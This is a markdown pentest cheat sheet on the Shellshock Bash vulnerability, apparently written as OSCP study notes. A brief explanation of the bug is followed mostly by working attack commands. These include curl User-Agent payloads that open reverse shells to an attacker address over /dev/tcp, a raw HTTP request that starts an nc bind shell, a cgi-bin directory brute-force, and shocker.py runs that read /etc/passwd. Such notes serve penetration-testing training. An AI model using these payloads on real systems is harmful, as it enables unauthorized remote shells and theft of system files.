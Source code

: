 ```yaml
---
title: "ShellShock"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - shellshock
toc: true
hide_title: true
excerpt: ""
---
```


Bash can also be used to run commands passed to it by applications and it is this feature that the vulnerability affects. One type of command that can be sent to Bash allows environment variables to be set. Environment variables are dynamic, named values that affect the way processes are run on a computer. The vulnerability lies in the fact that an **attacker can tack-on malicious code to the environment variable, which will run once the variable is received**.
![[image 2.avif]]

Exploiting this vulnerability the **page could throw an error**.

You could **find** this vulnerability noticing that it is using an **old Apache version** and **cgi_mod** (with cgi folder) or using **nikto**

## Exploitation Steps

- check for any cgi file on server ,
- If you found any directory of **/cgi-bin/** use extension like **sh** and **cgi** and bruteforce the directory

```
sudo python3 dirsearch.py -u http://10.10.10.56:80/cgi-bin/ -e cgi,sh
```

- If you found any **.sh or .cgi file** , you can use **shellshock reverse shell** to connect back to us
- We can put payload into **useragent** to execute it -

```
curl -A “() { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1” http://192.168.2.18/cgi-bin/helloworld.cgi

curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" $ip/cgi-bin/status
```

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc $ip 80
```

## NSE


```
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

## Shocker

```
$ git clone https://github.com/nccgroup/shocker

cd shocker

./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/admin.cgi --verbose
```

## ShellShock over ssh

```
$ ssh username@$ip '() { :;}; /bin/bash'
```